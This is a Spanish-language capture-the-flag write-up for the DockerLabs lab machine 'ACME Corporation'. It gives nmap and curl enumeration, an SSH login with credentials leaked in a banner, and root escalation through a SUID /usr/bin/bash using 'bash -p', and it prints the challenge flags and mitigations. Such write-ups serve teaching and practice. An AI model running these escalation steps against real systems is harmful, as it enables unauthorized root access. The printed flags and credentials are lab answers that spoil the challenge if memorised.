


<h1 align="center">🏭 ACME Corporation — Writeup</h1>

<p align="center">
  
</p>

<p align="center">
  
  
  
  
</p>

<p align="center">
  <b>Enumeración web</b> &nbsp;→&nbsp; <b>Banner SSH con credenciales</b> &nbsp;→&nbsp; <b>Foothold (usuario)</b> &nbsp;→&nbsp; <b>SUID en /usr/bin/bash</b> &nbsp;→&nbsp; <b>root</b>
</p>

---

## 📑 Índice

1. [Información de la máquina](#1-información-de-la-máquina)
2. [Reconocimiento](#2-reconocimiento)
3. [Enumeración web y pista](#3-enumeración-web-y-pista)
4. [Acceso inicial (Foothold)](#4-acceso-inicial-foothold)
5. [Escalada de privilegios — SUID bash](#5-escalada-de-privilegios--suid-bash)
6. [Acceso root y flags](#6-acceso-root-y-flags)
7. [Nota: ruta alternativa (WordPress)](#7-nota-ruta-alternativa-wordpress)
8. [Mitigaciones](#8-mitigaciones)
9. [Herramientas utilizadas](#9-herramientas-utilizadas)

---

## 1. Información de la máquina

| Campo            | Valor                                  |
|------------------|----------------------------------------|
| Nombre           | ACME Corporation                       |
| Plataforma       | DockerLabs                             |
| Autor            | mikisbd                                |
| Fecha            | 27/09/2026                             |
| IP objetivo      | `172.17.0.2`                           |
| Dificultad       | Muy fácil                              |
| Sistema          | Ubuntu 22.04.5 LTS                     |
| Técnicas         | Divulgación de credenciales (banner SSH), abuso de SUID |

> **Nota:** la IP depende de tu despliegue de Docker. Ajusta `172.17.0.2`
> a la que te asigne tu laboratorio.

---

## 2. Reconocimiento

### 2.1. Escaneo de puertos con Nmap

```bash
sudo nmap -p- -sS -sC -sV -T5 -n -Pn -vvv 172.17.0.2
```

Resultado:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.16 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/migration_notes.txt
|_http-title: ACME Corporation - Portal en Mantenimiento
```

| Puerto | Servicio | Versión |
|--------|----------|---------|
| 22/tcp | SSH | OpenSSH 8.9p1 |
| 80/tcp | HTTP | Apache 2.4.52 |

> 💡 Nmap ya detecta algo interesante: el `robots.txt` esconde una entrada
> **`/migration_notes.txt`**.

---

## 3. Enumeración web y pista

### 3.1. El portal

La web es el "ACME Infrastructure Portal" en **modo mantenimiento**. El
aviso indica que el acceso se hace **exclusivamente por SSH** y sugiere:

```
$ ssh cualquier_usuario@<IP_OBJETIVO>
```

<p align="center">
  
</p>

### 3.2. robots.txt → migration_notes.txt

```bash
curl -s http://172.17.0.2/robots.txt
```
```
User-agent: *
Disallow: /migration_notes.txt
```

```bash
curl -s http://172.17.0.2/migration_notes.txt
```
```
MEMORANDO DE MIGRACION DE INFRAESTRUCTURA - ACME CORP
Estado: Migracion interna activa
Aviso: El acceso a este servidor se canaliza por SSH (puerto 22).
Consulte el banner de conexion de SSH para obtener las instrucciones del nodo.
```

> 💡 **Pista clave:** tanto la web como las notas de migración insisten en
> conectar por SSH *con cualquier usuario* para leer el banner del nodo.

---

## 4. Acceso inicial (Foothold)

### 4.1. Leer el banner SSH

Al conectar por SSH con cualquier nombre de usuario, el servidor muestra un
**banner de mantenimiento que filtra credenciales**:

```bash
ssh user@172.17.0.2
```

```
===================================================================
[*] ACME Corporation - Nodo Bastion de Mantenimiento Interno
[!] AVISO DE SEGURIDAD Y ACCESO:
[!] Credenciales temporales asignadas para tareas de mantenimiento:
[!]   - Usuario: usuario
[!]   - Password: P@ssw0rd2026_CTF!
===================================================================
```

> ⚠️ **Detalle importante:** el usuario real es literalmente **`usuario`**.
> Si intentas loguearte con el nombre que escribiste (p. ej. `user`), fallará.
> Hay que usar el usuario indicado en el banner.

### 4.2. Conexión con las credenciales filtradas

```bash
ssh usuario@172.17.0.2
# password: P@ssw0rd2026_CTF!
```

```bash
usuario@acme:~$ whoami
usuario
usuario@acme:~$ cat user.txt
FLAG{nmap_recon_ssh_foothold_7a9f24e1}
```

✅ **Foothold conseguido** como `usuario`.

---

## 5. Escalada de privilegios — SUID bash

### 5.1. Enumeración de binarios SUID

```bash
find / -perm -4000 -type f 2>/dev/null
```

```
/usr/bin/dash      ← ANOMALÍA
/usr/bin/bash      ← ANOMALÍA
/usr/bin/passwd
/usr/bin/su
/usr/bin/sudo
...
```

> 💡 **`bash` y `dash` NO son SUID en un sistema normal.** Su presencia aquí
> es el vector de escalada.

### 5.2. Confirmar el bit SUID

```bash
ls -la /usr/bin/bash
```

```
-rwsr-xr-x 1 root root 1396520 Mar 14  2024 /usr/bin/bash
```

La **`s`** en los permisos del dueño (`-rw**s**r-xr-x`) es el **bit SUID**,
y el dueño es **root**. Al ejecutar el binario, corremos con los
privilegios de root.

### 5.3. Explotación

El binario `bash` con SUID permite obtener root con la opción `-p`
(*privileged*), que **mantiene** el euid de root en vez de descartarlo
(ver [GTFOBins → bash → SUID](https://gtfobins.github.io/gtfobins/bash/#suid)):

```bash
bash -p
```

```bash
id
uid=1000(usuario) gid=1000(usuario) euid=0(root) groups=1000(usuario)
```

> El `euid=0(root)` confirma que ya tenemos privilegios efectivos de root.

---

## 6. Acceso root y flags

```bash
bash -p
cat /root/root.txt
```

```
FLAG{wp2shell_cve_2026_63030_core_rce_root_99d10c8b}
```

### 🏆 ¡Root conseguido!

| Flag   | Valor                                                   |
|--------|---------------------------------------------------------|
| User   | `FLAG{nmap_recon_ssh_foothold_7a9f24e1}`                |
| Root   | `FLAG{wp2shell_cve_2026_63030_core_rce_root_99d10c8b}`  |

---

## 7. Nota: ruta alternativa (WordPress)

En `/root` se encuentra un archivo `patch_wp_vulnerable.php`. **No es una
vulnerabilidad en sí**, sino el **script con el que el autor preparó la
máquina**: reintroduce a propósito dos vulnerabilidades reales en el núcleo
de WordPress (`/var/www/wordpress`):

- **CVE-2026-60137** — Inyección SQL en `WP_Query` (`author__not_in`).
- **CVE-2026-63030** — "Batch Route Confusion" en la REST API, que permite
  forzar `wp_set_current_user(1)` y actuar como administrador sin
  autenticación → RCE (de ahí el nombre de la flag `wp2shell`).

Es decir, la máquina tenía **dos caminos**:

| Ruta | Cómo | Dificultad |
|------|------|-----------|
| **La de este writeup** | Pista web → banner SSH regala credenciales → SUID bash → root | Fácil |
| **La "pensada"** | Explotar WordPress (CVE-2026-63030/60137) → shell → root | Avanzada |

---

## 8. Mitigaciones

1. **Nunca filtrar credenciales en banners ni en la web.** El banner SSH y
   las notas de migración exponían usuario y contraseña. Los avisos de
   mantenimiento no deben contener secretos.
2. **Credenciales robustas y temporales de verdad.** Rotar y eliminar las
   cuentas de mantenimiento tras usarlas.
3. **Eliminar bits SUID innecesarios.** `bash` y `dash` jamás deben tener
   SUID. Auditar con `find / -perm -4000 -type f` y aplicar el principio de
   mínimo privilegio.
4. **No dejar artefactos de despliegue** (como `patch_wp_vulnerable.php`) en
   el sistema en producción.
5. **Mantener WordPress actualizado** y no reintroducir versiones vulnerables.

---

## 9. Herramientas utilizadas

- `nmap` — escaneo de puertos y servicios.
- `curl` — enumeración web (`robots.txt`, `migration_notes.txt`).
- `ssh` — lectura del banner y acceso remoto.
- `find` / `ls` — enumeración de binarios SUID.
- `bash -p` — explotación del SUID para obtener root.

---

<p align="center">
  <i>Writeup con fines educativos sobre un entorno de laboratorio controlado (DockerLabs).<br>
  No utilizar estas técnicas contra sistemas sin autorización explícita.</i>
</p>
